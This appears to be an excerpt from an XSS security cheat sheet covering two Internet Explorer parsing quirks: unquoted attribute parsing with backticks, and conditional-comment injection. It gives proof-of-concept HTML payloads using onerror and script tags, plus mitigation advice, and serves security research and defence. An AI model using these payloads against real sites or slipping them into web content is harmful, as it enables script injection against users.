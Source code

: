 reporter：.mario

### Internet Explorer parameter parsing issue[#108](#108)[test](test/#108)

Internet Explorer treats the sequence of any quotes that follows the equal sign in a parameter without delimiters as the beginning of some semblance of new parameter.


```
<!-- IE 5-8 standards mode --> <a href=http://foo.bar/#x=`y></a><img alt="`><img src=xx:x onerror=alert(1)></a>"> <!-- IE 5-9 standards mode --> <!a foo=x=`y><img alt="`><img src=xx:x onerror=alert(2)//"> <?a foo=x=`y><img alt="`><img src=xx:x onerror=alert(3)//">
```

*   internet explorer 6.0
*   internet explorer latest (in older docmodes)

*   xss
*   javascript
*   parameter
*   parsing
*   internet explorer

*   [#62](#62)
*   [#102](#102)

reporter：Algol, jackmasa, sirdarckcat

### Internet Explorer conditional comments - XSS via [if]&gt; and &lt;img&gt; injection[#115](#115)[test](test/#115)

Conditional comments on Internet Explorer can cause trouble as soon as an attacker is able to inject rectangular brackets wrapping the words if and endif with almost arbitrary suffixes. A condition always being true will lead to immediate parsing of the enclosed markup on all tested Internet Explorer versions. The second example injects an &lt;img&gt; tag into the comment condition leading to immediate JavaScript execution as well. The examples are worked up to IE 9 standards mode.


```
<!--[if]><script>alert(1)</script --> <!--[if<img src=x onerror=alert(2)//]> -->
```

Make sure an attacker cannot turn a comment injection into a conditional comment by using rectangular brackets such as shown in the example. Comment content should be escaped like regular markup - the delimiting sequence --&gt; is neither sufficient nor necessary to successfully close a comment.

*   internet explorer 6.0
*   internet explorer latest (in older docmodes)

*   xss
*   conditional
*   comments
*   internet explorer
*   rectangular

*   [http://msdn.microsoft.com/en-us/library/ms537512%28v=vs.85%29.aspx](http://msdn.microsoft.com/en-us/library/ms537512%28v=vs.85%29.aspx)
*   [#37](#37)
*   [#38](#38)
